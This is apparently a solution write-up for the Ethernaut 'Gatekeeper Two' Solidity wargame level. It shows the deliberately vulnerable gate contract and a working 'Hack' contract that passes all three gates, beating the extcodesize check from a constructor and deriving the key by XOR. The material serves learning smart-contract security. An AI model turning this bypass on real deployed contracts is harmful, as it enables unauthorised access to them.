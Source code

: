 # Gatekeeper Two

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.
- The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

```

## Solution

```
contract Hack {

    constructor (GatekeeperTwo _target) {

        uint64 _sender = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 _max = type(uint64).max;
        // Given _sender ^ _key64 = _max 
        // Therefore _sender ^ _max = _key64
        uint64 _key64 = _sender ^ _max;
        bytes8 key = bytes8(_key64);
        require(_target.enter(key), "failed");

    }
}

```



### Hint from Ethernaut

Way to go! Now that you can get past the gatekeeper, you have what it takes to join theCyber, a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on reddit or via email and use it to register with the contract at gatekeepertwo.thecyber.eth (be aware that only the first 128 entrants will be accepted by the contract).

